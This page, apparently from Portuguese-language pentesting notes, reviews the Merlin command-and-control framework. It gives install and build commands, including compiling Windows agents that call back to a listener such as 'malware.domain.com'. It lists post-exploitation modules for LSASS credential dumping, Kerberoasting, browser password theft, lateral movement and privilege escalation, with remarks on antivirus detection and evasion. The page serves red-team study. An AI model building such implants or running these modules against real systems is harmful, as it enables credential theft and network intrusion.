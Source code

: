# Instalação

## Instale o GO
```
#Download GO package from: https://golang.org/dl/
#Decompress the packe using:
tar -C /usr/local -xzf go$VERSION.$OS-$ARCH.tar.gz

#Change /etc/profile
Add ":/usr/local/go/bin" to PATH
Add "export GOPATH=$HOME/go"
Add "export GOBIN=$GOPATH/bin"

source /etc/profile
```
## Instalar Merlin
```
go get https://github.com/Ne0nd0g/merlin/tree/dev #It is recommended to use the developer branch
cd $GOPATH/src/github.com/Ne0nd0g/merlin/
```
# Iniciar o Servidor Merlin
```
go run cmd/merlinserver/main.go -i
```
# Agentes do Merlin

Você pode [baixar agentes pré-compilados](https://github.com/Ne0nd0g/merlin/releases)

## Compilar Agentes

Vá para a pasta principal _$GOPATH/src/github.com/Ne0nd0g/merlin/_
```
#User URL param to set the listener URL
make #Server and Agents of all
make windows #Server and Agents for Windows
make windows-agent URL=https://malware.domain.com:443/ #Agent for windows (arm, dll, linux, darwin, javascript, mips)
```
## **Compilação manual de agentes**
```
GOOS=windows GOARCH=amd64 go build -ldflags "-X main.url=https://10.2.0.5:443" -o agent.exe main.g
```
# Módulos

**A má notícia é que cada módulo usado pelo Merlin é baixado da fonte (Github) e salvo no disco antes de ser usado. Tenha cuidado ao usar módulos conhecidos porque o Windows Defender irá detectá-lo!**


**SafetyKatz** --> Mimikatz modificado. Despeja LSASS em um arquivo e executa: sekurlsa::logonpasswords para esse arquivo\
**SharpDump** --> minidespejo para o ID do processo especificado (LSASS por padrão) (É dito que a extensão do arquivo final é .gz, mas na verdade é .bin, mas é um arquivo .gz)\
**SharpRoast** --> Kerberoast (não funciona)\
**SeatBelt** --> Testes de segurança local em CS (não funciona) https://github.com/GhostPack/Seatbelt/blob/master/Seatbelt/Program.cs\
**Compiler-CSharp** --> Compila usando csc.exe /unsafe\
**Sharp-Up** --> Todos os testes em C# em powerup (funciona)\
**Inveigh** --> Ferramenta de spoofing e man-in-the-middle PowerShellADIDNS/LLMNR/mDNS/NBNS (não funciona, precisa carregar: https://raw.githubusercontent.com/Kevin-Robertson/Inveigh/master/Inveigh.ps1)\
**Invoke-InternalMonologue** --> Impersonifica todos os usuários disponíveis e recupera um desafio-resposta para cada um (hash NTLM para cada usuário) (URL ruim)\
**Invoke-PowerThIEf** --> Rouba formulários do IExplorer ou faz com que ele execute JS ou injete uma DLL nesse processo (não funciona) (e o PS parece que também não funciona) https://github.com/nettitude/Invoke-PowerThIEf/blob/master/Invoke-PowerThIEf.ps1\
**LaZagneForensic** --> Obter senhas do navegador (funciona, mas não imprime o diretório de saída)\
**dumpCredStore** --> API do Win32 Credential Manager (https://github.com/zetlen/clortho/blob/master/CredMan.ps1) https://www.digitalcitizen.life/credential-manager-where-windows-stores-passwords-other-login-details\
**Get-InjectedThread** --> Detecta injeção clássica em processos em execução (Injeção clássica (OpenProcess, VirtualAllocEx, WriteProcessMemory, CreateRemoteThread)) (não funciona)\
**Get-OSTokenInformation** --> Obter informações do token dos processos e threads em execução (Usuário, grupos, privilégios, proprietário... https://docs.microsoft.com/es-es/windows/desktop/api/winnt/ne-winnt-\_token_information_class)\
**Invoke-DCOM** --> Executa um comando (em outro computador) via DCOM (http://www.enigma0x3.net.) (https://enigma0x3.net/2017/09/11/lateral-movement-using-excel-application-and-dcom/)\
**Invoke-DCOMPowerPointPivot** --> Executa um comando em outro PC abusando dos objetos COM do PowerPoint (ADDin)\
**Invoke-ExcelMacroPivot** --> Executa um comando em outro PC abusando do DCOM no Excel\
**Find-ComputersWithRemoteAccessPolicies** --> (não funciona) (https://labs.mwrinfosecurity.com/blog/enumerating-remote-access-policies-through-gpo/)\
**Grouper** --> Ele despeja todas as partes mais interessantes da política de grupo e depois procura por coisas exploráveis. (descontinuado) Dê uma olhada no Grouper2, parece muito bom\
**Invoke-WMILM** --> WMI para mover lateralmente\
**Get-GPPPassword** --> Procura por groups.xml, scheduledtasks.xml, services.xml e datasources.xml e retorna senhas em texto simples (dentro do domínio)\
**Invoke-Mimikatz** --> Usa o mimikatz (credenciais padrão de despejo)\
**PowerUp** --> https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc\
**Find-BadPrivilege** --> Verifica os privilégios dos usuários nos computadores\
**Find-PotentiallyCrackableAccounts** --> Recupera informações sobre contas de usuário associadas ao SPN (Kerberoasting)\
**psgetsystem** --> getsystem

**Não verifiquei os módulos de persistência**

# Resumo

Eu realmente gosto da sensação e do potencial da ferramenta.\
Espero que a ferramenta comece a baixar os módulos do servidor e integre algum tipo de evasão ao baixar scripts.
